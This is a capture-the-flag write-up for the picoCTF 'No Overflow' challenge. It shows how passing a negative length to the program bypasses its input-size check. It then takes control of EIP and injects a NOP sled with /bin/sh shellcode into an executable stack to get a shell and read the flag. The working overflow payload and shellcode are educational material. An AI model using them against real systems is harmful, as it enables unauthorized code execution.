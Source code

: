 ### Solved by barrebas

No Overflow is a 140 point challenge. 

This program tries to prevent buffer overflows by first asking for the input length. 

```bash
bas@tritonal:~/tmp/picoctf$ ./no_overflow 
How long is your name?
10
What is your name?
BBBBBBBBBBBBBBBBBBBBBBBBBB
Hello, BBBBBBBBBBW
```

It disregards the rest of the ouput. However, the program uses `scanf`. If we supply `-1` as the length, we can bypass the overflow check:

```bash
bas@tritonal:~/tmp/picoctf$ (echo -1; python -c 'print "A"*300') | ./no_overflow 
How long is your name?
What is your name?
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...snip...
Segmentation fault
```

From here, it is easy to control EIP:

```bash
bas@tritonal:~/tmp/picoctf$ (echo -1; python -c 'print "A"*268+"BBBB"'; echo) | ./no_overflow
How long is your name?
What is your name?
Hello, AAAAAAAAAA...snip...
Segmentation fault (core dumped)
bas@tritonal:~/tmp/picoctf$ gdb no_overflow core
...snip...
Core was generated by `./no_overflow'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Quickly checking on the remote server if there is any protection on the binary:

```bash
pico1139@shell:/home/no_overflow$ readelf -l no_overflow 

Elf file type is EXEC (Executable file)
Entry point 0x8048430
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x0080c 0x0080c R E 0x1000
  LOAD           0x000f08 0x08049f08 0x08049f08 0x0012c 0x00130 RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x0006e0 0x080486e0 0x080486e0 0x0003c 0x0003c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
  GNU_RELRO      0x000f08 0x08049f08 0x08049f08 0x000f8 0x000f8 R   0x1
```

The stack is executable! Furthermore, ASLR is not enabled. This makes it easy to stick in a [shellcode](http://shell-storm.org/shellcode/files/shellcode-827.php) plus a NOP sled and return to an address on the stack:

```bash
pico1139@shell:/home/no_overflow$ (echo -1; python -c 'print "A"*268+"\xd0\xd6\xff\xff"+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'; cat) | ./no_overflow
How long is your name?
What is your name?
Hello, AAAAAAAAAAAAAAAAAAAAAA...snip...

id
uid=11066(pico1139) gid=1007(no_overflow) groups=1017(picogroup)
cat flag.txt
what_is_your_sign
```
